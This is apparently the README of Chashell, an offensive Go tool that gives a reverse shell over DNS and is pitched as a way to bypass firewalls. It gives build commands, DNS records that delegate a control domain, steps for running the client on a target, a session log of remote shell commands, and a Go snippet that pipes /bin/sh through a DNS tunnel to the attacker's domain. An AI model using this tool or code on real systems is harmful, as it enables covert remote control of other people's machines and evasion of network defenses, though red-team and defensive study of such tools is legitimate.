 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicate using DNS. 
It can be used to bypass firewall or heavy restricted networks.

It comes with a multi-client control server named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packets are encrypted using symetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)) with a shared key between the client
and the server.

Asymmetric cryptography is **planned**.

### Protocol

Chashell communicate using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. The Protocol Buffers message format (.proto file) is available in the **proto** folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packets are encrypted, hex-encoded and then packed for DNS.

### Supported systems

All desktop systems (Windows, Linux, Darwin, BSD variants) supported by the Go compiler should work.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)


### How to use Chaserv/Chashell

#### Building

Build all the binaries (change the domain_name and the encryption_key) :


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Building for a specific platform :

```
$ make build-all OSARCH="linux/arm"
```

Building the server only :

```
$ make build-server
```

Building the client (chashell) only :

```
$ make build-client
```

#### DNS Settings

* Buy/use a domain name of your choice (small if possible).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

* Run chaserv on the control server.
* Run chashell on the target computer.

The client should now appear on chaserv :

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

On the server, use the chaserv binary.
For the client (or the target), use the chashell binary.

## Implement your own

The *chashell/lib/transport* is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305)).
* Retrieve the hostname using the InfoPacket message.
* Create a "proxy/relay" tool in order to tunnel TCP/UDP streams (Meterpreter over DNS !).
* Protection against denial of service attacks.
* Use less dependencies.